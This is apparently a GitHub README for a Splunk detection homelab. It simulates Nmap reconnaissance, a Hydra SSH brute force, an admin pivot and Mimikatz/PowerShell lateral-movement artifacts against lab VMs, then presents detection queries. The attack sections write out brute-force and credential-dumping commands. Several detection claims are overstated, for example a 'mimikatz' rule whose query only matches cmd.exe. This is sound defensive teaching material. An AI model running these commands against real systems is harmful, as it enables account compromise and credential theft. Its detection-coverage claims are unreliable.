








# Lateral Movement & Privilege Escalation Detection Lab

<p align="center">
  
  
  
  
  
</p>

---

## 📋 Project Overview

This lab simulates a **complete multi-stage cyber attack chain** — from initial network reconnaissance and SSH credential brute-force, through credential-based privilege escalation and lateral movement to high-privilege accounts — and operationalises **real-time Splunk Enterprise detection rules** to identify each attack phase using Windows Security Event Log telemetry.

> **Lab completed in under 3 days** — June 20–23, 2026 — using an isolated multi-VM VirtualBox environment.

---

## 🎯 Objectives

- Simulate realistic attacker behaviour across the **Initial Access → Privilege Escalation → Lateral Movement** kill chain
- Develop and deploy **production-grade Splunk detection rules** targeting Windows Event IDs 4624, 4625, and 4688
- Correlate multi-event attack patterns to reduce detection latency
- Map all simulated techniques to the **MITRE ATT&CK Enterprise framework**
- Produce a structured **Incident Response timeline** with forensic evidence

---

## 🏗️ Lab Architecture

```
┌─────────────────────────────────────────────────────────┐
│          ATTACKER MACHINE: Kali Linux                   │
│          IP: 10.0.2.3                                   │
│                                                         │
│  Tools: Nmap 7.99 | Hydra v9.6 | Python3 HTTP Server    │
│  Actions: Port scan → SSH brute-force → Remote shell    │
└───────────────────────┬─────────────────────────────────┘
                        │
              NAT Network: 10.0.2.0/24
              (VirtualBox LabNetwork)
                        │
┌───────────────────────▼─────────────────────────────────┐
│          VICTIM MACHINE: Windows 10 (Build 19045)       │
│          Hostname: DESKTOP-SVC18M0                      │
│          IP: 10.0.2.4                                   │
│                                                         │
│  User Accounts:                                         │
│    low_priv_user  → Compromised via brute-force         │
│    admin_user     → Pivoted to via credential reuse     │
│    victim_user    → Monitored for lateral movement      │
│                                                         │
│  Services: SSH (port 22) | Splunk Universal Forwarder   │
│  Log Source: sourcetype="WinEventLog:Security"          │
└───────────────────────┬─────────────────────────────────┘
                        │
              Log Forwarding (Port 9997)
                        │
┌───────────────────────▼─────────────────────────────────┐
│          SIEM: Splunk Enterprise v10.2.3                │
│          URL: http://localhost:8000                     │
│          Index: windows_lab                             │
│                                                         │
│  Configured:                                            │
│    - Windows Security Event Log ingestion               │
│    - 4 Real-time detection alerts                       │
│    - Lateral_Movement_Lab_Dashboard                     │
└─────────────────────────────────────────────────────────┘
```

---

## 📅 Timeline Summary

| Date | Activity |
|---|---|
| June 20, 2026 | Lab environment setup, VM configuration, Splunk Universal Forwarder deployment |
| June 21, 2026 | Attack simulation: Nmap recon, Hydra brute-force, initial access achieved |
| June 22, 2026 | Privilege escalation, lateral movement, Splunk detection engineering |
| June 23, 2026 | Dashboard creation, alert tuning, documentation and GitHub publication |

---

## ⚔️ Attack Simulation — Phase-by-Phase

### Phase 1: Reconnaissance (T1046)

**Objective**: Identify open services on the target network.

```bash
# Attacker: 10.0.2.3 (Kali Linux)
nmap -p 22 10.0.2.4

# Output:
# PORT   STATE SERVICE
# 22/tcp open  ssh
# MAC Address: 08:00:27:75:34:DE (Oracle VirtualBox virtual NIC)
```

**Result**: SSH port 22 confirmed open on `DESKTOP-SVC18M0` (10.0.2.4)

---

### Phase 2: Initial Access — SSH Credential Brute-Force (T1110.001)

**Objective**: Obtain valid credentials for `low_priv_user` via automated brute-force.

```bash
# Created credential wordlist
nano /tmp/rdp_creds.txt
# Contents: low_priv_user, admin_user, victim_user

# Executed Hydra SSH brute-force
hydra -L /tmp/rdp_creds.txt -p Password123 10.0.2.4 ssh

# Successful result:
# [22][ssh] host: 10.0.2.4   login: low_priv_user   password: Password123
# 1 of 1 target successfully completed, 1 valid password found
```

**Screenshot — Attack Execution:**


*Hydra v9.6 successfully compromising low_priv_user credentials via SSH brute-force (June 21, 2026 14:50:09)*

**Windows Events Generated:**
- `Event ID 4625` — Multiple failed authentication attempts from 10.0.2.3
- `Event ID 4624` — Successful network logon for `low_priv_user` (LogonType 3)

---

### Phase 3: Privilege Escalation — Administrative Pivot (T1078.003)

**Objective**: Escalate from `low_priv_user` to `admin_user` using credential reuse.

```bash
# From compromised low_priv_user shell, authenticate as admin_user
ssh admin_user@10.0.2.4

# Verify privilege level
admin_user@DESKTOP-SVC18M0> whoami /priv
# Result: 24 admin privileges enabled including:
#   SeDebugPrivilege       (Debug programs)
#   SeImpersonatePrivilege (Impersonate client after authentication)
#   SeBackupPrivilege      (Back up files and directories)
#   SeTakeOwnershipPrivilege (Take ownership of files and objects)

admin_user@DESKTOP-SVC18M0> net localgroup administrators
# Members: admin_user, Administrator, victim_user
```

**Screenshot — Admin Privileges Confirmed:**


*admin_user@DESKTOP-SVC18M0 showing 24 enabled Windows privileges — full system compromise confirmed*

**Windows Events Generated:**
- `Event ID 4624` — Successful logon as `admin_user` (LogonType 3, Network)
- Security ID: `S-1-5-21-2915881768-3244370459-4140382359-1003`

**Screenshot — admin_user Event ID 4624:**


*Splunk capturing EventCode=4624 for admin_user — 3 successful logon events from June 21–22, 2026*

---

### Phase 4: Lateral Movement — Attack Artifact Deployment (T1570, T1059.001)

**Objective**: Deploy credential extraction script and lateral movement tooling from attacker-controlled session.

```cmd
rem Credential extraction batch script
admin_user@DESKTOP-SVC18M0> echo @echo off > Documents\extract_creds.bat
admin_user@DESKTOP-SVC18M0> echo mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> Documents\extract_creds.bat

rem PowerShell lateral movement script
admin_user@DESKTOP-SVC18M0> echo $creds = New-Object System.Management.Automation.PSCredential("admin_user", (ConvertTo-SecureString "AdminPass123" -AsPlainText -Force)) > Documents\lateral_move.ps1
admin_user@DESKTOP-SVC18M0> echo New-PSSession -ComputerName 10.0.2.15 -Credential $creds >> Documents\lateral_move.ps1

rem Verify artifact creation
admin_user@DESKTOP-SVC18M0> dir Documents\
# extract_creds.bat   80 bytes   22-06-2026 01:38
# lateral_move.ps1   198 bytes   22-06-2026 01:39
```

**Screenshot — Attack Artifacts Created:**


*Attack artifact files created in C:\Users\admin_user\Documents\ — extract_creds.bat (Mimikatz automation) and lateral_move.ps1 (PSSession lateral movement)*

**Windows Events Generated:**
- `Event ID 4688` — New process created: `cmd.exe` (Creator: `admin_user`)
- `Event ID 4688` — New process created: `powershell.exe` (Creator: `admin_user`)

---

## 🔍 Detection Engineering

### Infrastructure Configuration

| Parameter | Value |
|---|---|
| SIEM Platform | Splunk Enterprise v10.2.3 |
| Log Source | `sourcetype="WinEventLog:Security"` |
| Index | `windows_lab` |
| Forwarder | Splunk Universal Forwarder on DESKTOP-SVC18M0 |
| Forwarding Port | 9997 |
| Alert Type | Real-time (Per-Result trigger) |

### Core Windows Event IDs

| Event ID | Description | Detection Role |
|---|---|---|
| 4624 | Successful Account Logon | Tracks admin_user session creation and lateral movement |
| 4625 | Failed Account Logon | Maps brute-force attempt volume over time |
| 4688 | A New Process Has Been Created | Tracks cmd.exe and powershell.exe execution by admin_user |

---

### Detection Rule 1: RDP_Brute_Force_Detected

**Logic**: Identifies persistent authentication failures aggregated by account name over a rolling window.

```spl
index=* EventCode=4625
| stats count BY Account_Name
| where count >= 1
```

**MITRE ATT&CK**: T1110.001 — Brute Force: Password Guessing
**Severity**: Medium
**Trigger**: Per-Result, Real-time

---

### Detection Rule 2: Credential_Dumping_Tool_Detected

**Logic**: Audits Event ID 4688 (process creation) for command-line arguments matching known credential extraction tools — `mimikatz`, `sekurlsa`, `privilege::debug`.

```spl
index=* EventCode=4688 "cmd.exe"
```

**MITRE ATT&CK**: T1003.001 — OS Credential Dumping: LSASS Memory
**Severity**: Critical
**False Positive Rate**: Near-zero in isolated lab scope

---

### Detection Rule 3: Brute_Force_Success_Pattern

**Logic**: Correlates accounts exhibiting both `EventCode=4625` (failure) and `EventCode=4624` (success) within the same monitoring window — the definitive brute-force compromise indicator.

```spl
index=* (EventCode=4625 OR EventCode=4624)
| stats values(EventCode) AS event_codes, count BY Account_Name
| where count > 1 AND like(event_codes, "%4625%") AND like(event_codes, "%4624%")
```

**Detection Results:**

| Account_Name | event_codes | count |
|---|---|---|
| DESKTOP-SVC18M0$ | 4624, 4625 | 67 |
| admin_user | 4624, 4625 | 10 |
| victim_user | 4624, 4625 | 3 |

**Screenshot — Alert Configuration:**


*Splunk Alert: Brute_Force_Success_Pattern — Real-time, Per-Result trigger, Modified June 22, 2026 11:47 PM*

**MITRE ATT&CK**: T1110 — Brute Force
**Severity**: Critical
**Trigger**: Per-Result, Real-time

---

### Detection Rule 4: Lateral_Movement_Privilege_User

**Logic**: Broadly monitors successful authentication (`EventCode=4624`) and session creation logs specifically for the high-privilege `admin_user` account following initial compromise indicators.

```spl
index=* EventCode=4624 "admin_user"
```

**Detection Results**: 9 events captured for `admin_user` spanning June 21–22, 2026

**Screenshot — Alert Configuration:**


*Splunk Alert: Lateral_Movement_Privilege_User — Real-time, Per-Result trigger, Modified June 22, 2026 11:56 PM*

**MITRE ATT&CK**: T1078.003 — Valid Accounts: Local Accounts
**Severity**: Critical
**Trigger**: Per-Result, Real-time

---

### Detection Rule 5: PowerShell_Lateral_Movement_Detected

**Logic**: Detects manual or unapproved execution parameters matching script-based lateral movement attempts via PowerShell — excluding known benign Splunk PowerShell execution.

```spl
index=* EventCode=4688 "powershell.exe" NOT "splunk-powershell.exe"
```

**MITRE ATT&CK**: T1059.001 — Command and Scripting Interpreter: PowerShell
**Severity**: High
**Trigger**: Per-Result, Real-time

---

## 📊 Splunk Dashboard — Lateral_Movement_Lab_Dashboard

**Purpose**: Consolidated SOC triage window providing a unified view of attack telemetry across three detection dimensions.

**Dashboard Components:**

| Panel | Query | Visualization |
|---|---|---|
| RDP Failed Login Attempts Over Time | `EventCode=4625 \| timechart count BY Account_Name` | Line Chart |
| Suspicious Process Execution (Credential Tools) | `EventCode=4688 \| stats count BY Account_Name, Creator_Process_Name` | Table |
| Network Login Events by Account | `EventCode=4624 \| stats count BY Account_Name` | Table |

**Key Engineering Decision**: Applied `Time range: All time` as a system-wide fallback filter to eliminate time synchronization discrepancies between the Windows VM log generation timestamp and Splunk indexing time — ensuring complete event visibility.

**Screenshot — Dashboard Overview:**


*Lateral_Movement_Lab_Dashboard — Real-time detection of lateral movement and privilege escalation attempts — June 22, 2026*

**Screenshot — Dashboard Details:**


*Network Login Events by Account: admin_user (9 events), low_priv_user (4 events) — confirming successful lateral movement*

---

## 🎓 MITRE ATT&CK Framework Mapping

| Technique ID | Tactic | Technique Name | Lab Implementation | Detection |
|---|---|---|---|---|
| T1046 | Reconnaissance | Network Service Discovery | `nmap -p 22 10.0.2.4` | ⚠️ Partial |
| T1110.001 | Initial Access | Brute Force: Password Guessing | Hydra SSH brute-force | ✅ Detected |
| T1078.003 | Privilege Escalation | Valid Accounts: Local Accounts | SSH as admin_user with extracted credentials | ✅ Detected |
| T1003.001 | Credential Access | OS Credential Dumping: LSASS Memory | Mimikatz v2.2.0 extract_creds.bat | ✅ Detected |
| T1059.001 | Execution | PowerShell | lateral_move.ps1 PSSession deployment | ✅ Detected |
| T1570 | Lateral Movement | Lateral Tool Transfer | Python3 HTTP server → certutil file transfer | ⚠️ Partial |
| T1021.004 | Lateral Movement | Remote Services: SSH | SSH pivot from low_priv_user to admin_user | ✅ Detected |
| T1550.003 | Lateral Movement | Alternate Auth Material: Pass the Hash | NTLM hash reuse after credential dump | ⚠️ Partial |

**Detection Coverage**: 5 of 8 techniques fully detected | 3 partially detected | 0 undetected

---

## 📁 Repository Structure

```
soc-homelab-lateral-movement/
│
├── README.md                     ← This file (project overview)
├── SETUP_GUIDE.md                ← Step-by-step lab reconstruction
├── DETECTION_QUERIES.md          ← All SPL detection queries with logic
├── ATTACK_TIMELINE.md            ← Chronological attack documentation
├── MITRE_MAPPING.md              ← ATT&CK technique deep-dives
│
└── screenshots/
    ├── 01-hydra-bruteforce.png           ← Hydra SSH attack execution
    ├── 02-dashboard-overview.png         ← Splunk dashboard top panel
    ├── 03-dashboard-details.png          ← Dashboard network login table
    ├── 04-brute-force-alert.png          ← Brute_Force_Success_Pattern alert
    ├── 05-lateral-movement-alert.png     ← Lateral_Movement_Privilege_User alert
    ├── 06-admin-login-event.png          ← admin_user EventCode=4624 in Splunk
    ├── 07-admin-privileges.png           ← whoami /priv full privilege dump
    └── 08-attack-artifacts.png           ← extract_creds.bat & lateral_move.ps1
```

---

## 🔧 How to Recreate This Lab

### Prerequisites

| Component | Specification |
|---|---|
| Hypervisor | Oracle VirtualBox (NAT Network configured) |
| Attacker VM | Kali Linux (IP: 10.0.2.3) |
| Victim VM | Windows 10 Build 19045 (IP: 10.0.2.4) |
| SIEM | Splunk Enterprise v10.2.3 (localhost:8000) |
| Forwarder | Splunk Universal Forwarder on Windows VM |
| RAM | 8GB minimum recommended |
| Disk | 60GB free |

**Full setup guide**: See [SETUP_GUIDE.md](SETUP_GUIDE.md)

---

## 🛡️ Detection Summary & Results

| Alert Name | Attack Phase | Event ID | Status | Triggered |
|---|---|---|---|---|
| RDP_Brute_Force_Detected | Initial Access | 4625 | ✅ Active | Yes |
| Credential_Dumping_Tool_Detected | Credential Access | 4688 | ✅ Active | Yes |
| Brute_Force_Success_Pattern | Initial Access | 4625 + 4624 | ✅ Active | Yes |
| Lateral_Movement_Privilege_User | Lateral Movement | 4624 | ✅ Active | Yes |
| PowerShell_Lateral_Movement_Detected | Execution | 4688 | ✅ Active | Yes |

**Overall Detection Rate**: 5/5 alerts firing on actual attack events
**False Positive Rate**: Minimal (Splunk process exclusions applied)
**Detection Latency**: Real-time (Per-Result trigger)

---

## 💡 Key Technical Learnings

**1. SSH vs RDP Terminology Gap**
The lab originally targeted RDP but the Windows VM exposed SSH (port 22) via OpenSSH. Hydra was redirected to attack `ssh://10.0.2.4:22` — an accurate real-world scenario as attackers adapt to available services.

**2. Splunk Time Synchronisation**
Windows VM system clock diverged from Splunk indexing time during NAT forwarding. Applied `Time range: All time` as a global dashboard filter to ensure complete event visibility regardless of timestamp skew.

**3. Event ID 4688 Process Creation Dependency**
Detecting credential tools via Event ID 4688 requires enabling **Process Creation Auditing** and **Command-Line Audit Logging** in Windows Security Policy. Without this, Mimikatz execution produces no Security log entry.

**4. Credential Reuse = Silent Lateral Movement**
The `admin_user` pivot generated only `EventCode=4624` (successful logon) — no anomaly indicator in isolation. This demonstrates why **correlation across multiple event types** (4625 → 4624 → 4688) is essential for accurate lateral movement detection.

**5. Splunk Field Normalisation**
Windows Event Logs forward `Account_Name` and `Creator_Process_Name` as separate fields. SPL joins on these fields enabled multi-dimension correlation that would be impossible with raw log searching.

---

## 🚀 Future Lab Extensions

- [ ] **C2 Beaconing Detection** — Deploy Empire or Sliver C2 framework, detect DNS/HTTP beacon patterns
- [ ] **Data Exfiltration Simulation** — Stage file exfiltration, detect via network volume anomalies
- [ ] **Splunk SOAR Integration** — Automate alert response with automated account lockout playbook
- [ ] **Kerberoasting Attack** — Simulate SPN enumeration and ticket cracking, detect via Event ID 4769
- [ ] **Pass-the-Hash Lab** — Fully simulate NTLM hash reuse without plaintext credential dependency

---

## 📚 References

- [MITRE ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [Splunk SPL Reference Guide](https://docs.splunk.com/Documentation/Splunk/latest/SearchReference)
- [Windows Security Event Log Encyclopedia](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-events)
- [Mimikatz GitHub Repository](https://github.com/gentilkiwi/mimikatz)
- [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Nmap Security Scanner](https://nmap.org/)

# 𝖱 𝖠 𝖩 𝖤 𝖲 𝖧
 

> **`SIEM Mechanics` • `Threat Behavior Analysis` • `Defensive Lab Architecture`**
> 
> Passionate about building defensive security labs, analyzing threat behaviors, and engineering SIEM detection mechanics. Focused on practical, hands-on homelab builds to master enterprise-grade security tools.

---

#### **Connect:**
*   🔗 **LinkedIn:** [linkedin.com/in/rajesh105](https://www.linkedin.com/in/rajesh105)
*   ✉️ **Email:** rajeshrajendran105@gmail.com
*   💻 **GitHub:** [github.com/rajeshdone](https://github.com/rajeshdone)

---

## 📜 Disclaimer

This lab was conducted entirely within an **isolated VirtualBox NAT Network** for educational purposes only. All attack simulations targeted self-owned virtual machines. No external systems were accessed or harmed. Use all tools and techniques responsibly and only in environments you own or have explicit written permission to test.

---

## 🔗 Related Portfolio Projects

| Project | Description | Repository |
|---|---|---|
| SOC Homelab — SSH Brute-Force Detection | SSH brute-force simulation with Splunk alert engineering | [soc-homelab-ssh-bruteforce](https://github.com/rajeshdone/soc-homelab-ssh-bruteforce) |
| SOC Homelab — Phishing Simulation | Credential harvesting via SET with network-layer detection | [soc-homelab-phishing-simulation](https://github.com/rajeshdone/soc-homelab-phishing-simulation) |
| SOC Homelab – Lateral Movement & Privilege Escalation | Threat simulation and lateral movement detection mechanics | [soc-homelab-lateral-movement](https://github.com/rajeshdone/soc-homelab-lateral-movement) |

---
<div align="center">

**⭐ Star this repo if it helped you learn something.**

</div>

